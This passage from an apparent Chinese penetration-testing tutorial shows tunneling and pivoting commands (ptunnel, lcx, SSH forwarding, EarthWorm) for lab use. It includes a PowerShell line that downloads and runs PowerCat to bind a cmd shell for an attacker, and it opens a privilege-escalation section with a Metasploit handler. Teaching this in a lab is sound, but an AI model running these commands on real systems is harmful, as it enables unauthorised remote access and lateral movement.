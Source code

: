 <pre class="lang-java" data-nodeid="10169"><code data-language="java">ptunnel -x {连接密码}
</code></pre>
<ul data-nodeid="10170">
<li data-nodeid="10171">
<p data-nodeid="10172">再在攻击者机器上运行以下命令去连接。</p>
</li>
</ul>
<pre class="lang-java" data-nodeid="10173"><code data-language="java">ptunnel -p {跳板机IP} -lp {本地监听端口} -da {目标IP} -dp {目标机器端口} -x {连接密码}
</code></pre>
<h4 data-nodeid="10174">2.lcx 端口转发</h4>
<p data-nodeid="10175">lcx 是一款常用的轻便的端口转发工具，它是基于 Socket 实现的，常用于转发数据到防火墙许可的服务器或端口上，其使用方法如下：</p>
<pre class="lang-java" data-nodeid="10176"><code data-language="java">＃将本机端口 <span class="hljs-number">111</span> 的通信数据转发到本机端口 <span class="hljs-number">222</span>
lcx.exe -listen <span class="hljs-number">111</span> <span class="hljs-number">222</span>
＃将目标机器端口<span class="hljs-number">3389</span>的通信数据转发到公网机器端口<span class="hljs-number">4444</span>
lcx.exe -slave {公网IP} <span class="hljs-number">4444</span> <span class="hljs-number">127.0</span><span class="hljs-number">.0</span><span class="hljs-number">.1</span> <span class="hljs-number">3389</span>
＃访问本地端口<span class="hljs-number">111</span>即访问目标IP的<span class="hljs-number">3389</span>端口
lcx.exe -tran <span class="hljs-number">111</span> {目标IP} <span class="hljs-number">3389</span>
</code></pre>
<h4 data-nodeid="10177">3.PowerCat</h4>
<p data-nodeid="10178">PowerCat 是 netcat 的 PowerShell 版本，它允许本地执行，也可远程执行。常用的远程执行命令如下，下载 PowerShell 脚本进行执行，它会在本地监听 8000 端口，并关联 cmd：</p>
<pre class="lang-java" data-nodeid="10179"><code data-language="java">powershell “IEX (New-Object
System.Net.Webclient).DownloadString(‘https:<span class="hljs-comment">//raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat</span>
-l -p <span class="hljs-number">8000</span> -e cmd”
</code></pre>
<p data-nodeid="10180">然后攻击者主动连接 8000 端口，即可获取 shell 权限。</p>
<h4 data-nodeid="10181">4.SSH</h4>
<p data-nodeid="10182">几乎所有的 Linux/Unix 服务器都会支持 SSH 协议，在针对此类操作系统的攻击时就可以派上用场，用它来做代理和转发。</p>
<p data-nodeid="10183">常用命令如下：</p>
<pre class="lang-java" data-nodeid="10184"><code data-language="java">＃通过跳板机访问目标IP
ssh -CNfg -L <span class="hljs-number">2121</span>:{目标IP}:<span class="hljs-number">21</span> root@{跳板机IP}
＃访问攻击者IP的<span class="hljs-number">2121</span>端口，即是访问目标IP
ssh -CNfg -R <span class="hljs-number">2121</span>:BIP:{目标IP} root@{攻击者IP}
</code></pre>
<h4 data-nodeid="10185">5.EarthWorm</h4>
<p data-nodeid="10186"><a href="https://github.com/idlefire/ew" data-nodeid="10478">EarthWorm</a> 是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通信，用于复杂网络环境下的数据转发。</p>
<p data-nodeid="10187">它的常用命令如下：</p>
<pre class="lang-java" data-nodeid="10188"><code data-language="java"># 在目标机器中开启SOCKS代理
ew -s ssocksd -l 888
# 在跳板机上执行如下命令实现数据透传到目标机器上，即将1080端口数据转发到目标IP的888端口上
ew -s lcx_tran -l 1080 -f {目标机器IP} -g 888
</code></pre>
<h3 data-nodeid="10189">权限提升</h3>
<p data-nodeid="10190">有时我们利用 Web 漏洞拿到的系统权限是有限制的，为了获取更高的权限，我们就常常使用一些提权的利用方法来实现，下面介绍几种在 Windows 平台下比较常用的提权方法。</p>
<blockquote data-nodeid="10191">
<p data-nodeid="10192">补充：为方便本地虚拟机与主机互联测试，我修改了原靶场虚拟机的 IP 地址，将192.168.52.xx 都更改为 192.168.69.xx。</p>
</blockquote>
<h4 data-nodeid="10193">1.利用系统/软件漏洞提权</h4>
<p data-nodeid="10194">操作系统本身也有一些漏洞，特别是内核漏洞，常常用来帮助攻击者拿到更高的权限。还有一些拥有驱动程序的软件，比如杀毒软件，这些软件的权限都比较高，如果存在漏洞被利用，也可用于提权。</p>
<p data-nodeid="10195">下面以靶场为例来实践练习下，先在攻击者本地开启监听端口，以等待后门回连：</p>
<pre class="lang-java" data-nodeid="10196"><code data-language="java">msf5 &gt; use exploit/multi/<span class="hljs-function">handler